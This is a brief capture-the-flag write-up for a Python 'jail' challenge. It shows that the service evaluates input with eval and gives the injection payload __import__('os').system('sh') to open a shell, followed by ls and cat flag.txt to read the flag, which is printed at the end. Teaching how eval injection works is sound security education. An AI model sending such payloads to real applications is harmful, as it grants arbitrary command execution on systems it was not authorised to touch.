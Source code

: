 # Baby jail 1

## Write-up 
In this challenge, we see that if we give an airthetmic operation it will get evaluated.

```

>> 1+1

1+1 --> 2

```

Since we know that the app is built using Python from the description of the challenge, we can assume that the author has used the function `eval` in order to evaluate the expression. This function can be dangerous since it interprets Python code too, thus allowing us to execute whatever we want.

```

__import__('os').system('sh')

ls

cat flag.txt

```

## Flag

`shellmates{D0n'7_m3$$_W17H_EVAL_kID0}`